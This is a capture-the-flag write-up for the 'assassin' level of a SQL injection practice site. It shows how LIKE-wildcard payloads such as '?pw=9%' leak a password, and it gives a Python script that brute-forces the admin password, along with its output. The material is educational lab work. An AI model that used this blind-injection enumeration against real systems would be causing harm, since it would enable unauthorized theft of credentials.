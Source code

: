 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 15
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a4d30de7-86ed-4978-8c4c-38f8827700a5)

We are provided with theSQL query:

```sql
SELECT id FROM prob_assassin WHERE pw LIKE '{$_GET[pw]}'
```

### Filter

The code filters out the following characters:

- Single quotes

### Blind SQL Injection

We have to use wildcards to leak out the password.

#### Wildcard

![Pasted image 20240621082037](https://github.com/Kunull/Write-ups/assets/110326359/7c57a891-1577-4c2d-940d-556cac31d631)

More specifically, we have to use the (`%`) wildcard.

If we provide the following URI:

```
?pw=%
```

The resultant query becomes:

```sql
SELECT id FROM prob_assassin WHERE pw LIKE '%'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/4f441821-33d7-40d8-ac70-76dea5327282)

Since the `Hello guest` message is printed, we know that the `guest` user has a lower index than the `admin` user.

Let's provide the following URI:

```
?pw=0%
```

The resultant query becomes:

```sql
SELECT id FROM prob_assassin WHERE pw LIKE '0%'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/111c6b2d-5420-4ed9-adbd-2fd4e989cc44)

The first character of none of the passwords is `0`.

We can try other characters moving up to the following:

```
?pw=9%
```

The resultant query becomes:

```sql
SELECT id FROM prob_assassin WHERE pw LIKE '9%'
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/949f9c1a-f635-4af9-a930-8a212bf4ce66)

So the first character of both the `admin` and `guest` password is common, being `9`.

We can keep on following this method until the `Hello admin` message is included in the response. That tells us that the password is exclusive to the `admin` only.

```
902%
```

### Script

We can automate the entire process using a script.

```python title="assassin_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'cih6lj5v0dkr263t42fnn0d7br'}
url = 'https://los.rubiya.kr/chall/assassin_14a1fd552c61c60f034879e5d4171373.php'

guest_password = ''
admin_password = ''
searchspace = string.digits + string.ascii_letters
print()

for index in range(1, 9):
  for char in searchspace:
    payload = f"{guest_password}{char}"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f'{url}?pw={encoded_payload}%'

    response = requests.get(full_url, cookies=cookies)

    if ("Hello admin" in response.text):
      admin_password = guest_password + char 
      break
    elif ("Hello guest" in response.text):
      guest_password += char
      print(f'[x] Common character: {char}')
      break

print()
print(f'[x] Distinct character: {char}')
print(f'[!] Extracted password: {admin_password}%')
print(f'[!] Final payload: ?pw={admin_password}%')
```

```
$ python .\assassin_script.py

[x] Common character: 9
[x] Common character: 0

[x] Distinct character: 2  
[!] Extracted password: 902%
[!] Final payload: ?pw=902% 
```

If we provide the following URI:

```
?pw=902%
```

The resultant query becomes:

```sql
SELECT id FROM prob_assassin WHERE pw LIKE '902%'
```

![0](https://github.com/Kunull/Write-ups/assets/110326359/72b89d8f-5346-492b-a89d-52247da864c1)
